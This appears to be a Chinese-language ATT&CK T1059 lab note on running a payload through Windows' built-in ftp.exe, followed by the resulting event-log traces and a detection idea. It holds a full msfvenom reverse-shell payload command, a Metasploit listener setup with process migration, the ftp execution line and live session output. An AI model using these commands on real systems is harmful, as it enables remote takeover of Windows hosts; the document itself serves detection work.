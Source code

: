 # T1059-win-基于白名单Ftp.exe执行Payload

## 来自ATT&CK的描述

命令行界面是与计算机系统交互的一种方式，并且是很多操作系统平台的常见特性。例如，Windows系统上的命令行界面cmd可用于执行许多任务，包括执行其他软件。命令行界面可在本地交互或者通过远程桌面应用、反向shell会话等远程交互。执行的命令以命令行界面进程的当前权限级别运行，除非该命令需要调用进程来更改权限上下文（例如，定时任务）。

攻击者可能会使用命令行界面与系统交互并在操作过程中执行其他软件。

## 测试案例

Ftp.exe是Windows本身自带的一个程序，属于微软FTP工具，提供基本的FTP访问。

说明：Ftp.exe所在路径已被系统添加PATH环境变量中，因此，Ftp.exe命令可识别。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

Windows 2003 默认位置：
C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

Windows 7 默认位置：

C:\Windows\System32\ftp.exe

C:\Windows\SysWOW64\ftp.exe

## 检测日志

windows 安全日志/SYSMON日志（需要自行安装）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.exe

```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 53
lport => 53
msf5 exploit(multi/handler) > set AutoRunScript migrate -f
AutoRunScript => migrate -f
msf5 exploit(multi/handler) > exploit
```

#### 执行payload

```cmd
ftp>!C:\Users\12306Br0\Desktop\a\payload.exe
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:53
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:53 -> 192.168.126.149:49219) at 2020-04-18 20:08:18 +0800
[*] Session ID 1 (192.168.126.146:53 -> 192.168.126.149:49219) processing AutoRunScript 'migrate -f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]
[*] Current server process: payload.exe (2324)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 2888
[+] Successfully migrated to process

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0

```

## 测试留痕

```log
EventID:4688 #安全日志，windows server 2012以上配置审核策略，可对命令参数进行记录
进程信息:
新进程 ID: 0x474
新进程名: C:\Windows\System32\cmd.exe

EventID:4688
进程信息:
新进程 ID: 0x3f8
新进程名: C:\Users\12306Br0\Desktop\a\payload.exe

EventID:5156
应用程序信息:
进程 ID: 1016
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\payload.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49221
目标地址: 192.168.126.146
目标端口: 53
协议: 6

EventID:1 #sysmon日志
Image: C:\Windows\System32\cmd.exe
FileVersion: 6.1.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows Command Processor
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: Cmd.Exe
CommandLine: C:\Windows\system32\cmd.exe /C C:\Users\12306Br0\Desktop\a\payload.exe
CurrentDirectory: C:\Windows\system32\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-e7a1-5e9a-0000-0020ac500500}
LogonId: 0x550ac
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=0F3C4FF28F354AEDE202D54E9D1C5529A3BF87D8
ParentProcessGuid: {bb1f7c32-ed99-5e9a-0000-00105addaf00}
ParentProcessId: 1112
ParentImage: C:\Windows\System32\ftp.exe
ParentCommandLine: ftp
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1059

<https://attack.mitre.org/techniques/T1059/>

基于白名单Ftp.exe执行Payload

<https://www.77169.net/html/235306.html>

基于白名单的Payload

<https://blog.csdn.net/weixin_30790841/article/details/101848854>
